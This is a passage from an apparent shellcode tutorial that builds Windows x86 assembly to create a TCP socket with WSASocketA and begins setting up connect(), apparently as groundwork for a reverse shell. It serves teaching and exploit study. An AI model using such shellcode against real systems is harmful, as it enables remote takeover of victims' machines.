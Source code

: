 Here is what is should look like with the correct parameters filled in.

```
WINSOCK_API_LINKAGE SOCKET WSAAPI WSASocketA(
  int                 af - 2, AF_INET (IPv4)
  int                 type - 1, SOCK_STREAM (TCP)
  int                 protocol - 6, IPPROTO_TCP (TCP)
  LPWSAPROTOCOL_INFOA lpProtocolInfo - NULL,
  GROUP               g - 0, No group operation
  DWORD               dwFlags - 0 No flags
);
```

We'll need to push these values in reverse to the stack, and then MOV the address of WSASocketA into a register and CALL it. Finally we'll need to stow away our created socket (which will be returned into EAX) in another register for later use.

```asm
xor eax, eax            ; clear EAX
push eax		; dwFlags - 0
push eax		; Group - 0
push eax		; ProtocolInfo - NULL
xor ebx, ebx	        ; clear EBX	
mov bl, 6		
push ebx		; Protocol - IPPROTO_TCP = 6 		
inc eax		
push eax		; Type - SOCK_STREAM = 1
inc eax
push eax		; Family - AF_INET = 2
mov ebx, 0x754e9730	; WSASocketA - Win10 1803
xor eax, eax
call ebx
xchg eax, esi		; save socket into ESI
```

Next up is connect. Once again we'll reference Microsoft's documentation [here](https://docs.microsoft.com/en-us/windows/desktop/api/winsock2/nf-winsock2-connect).

The structure for calling connect is as follows:

```
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
```

So for us we'll need to set it up as follows:

```
int WSAAPI connect(
  SOCKET         s - saved socket currently in ESI,
  const sockaddr *name - pointer to IP address and port,
  int            namelen - 16
);
```
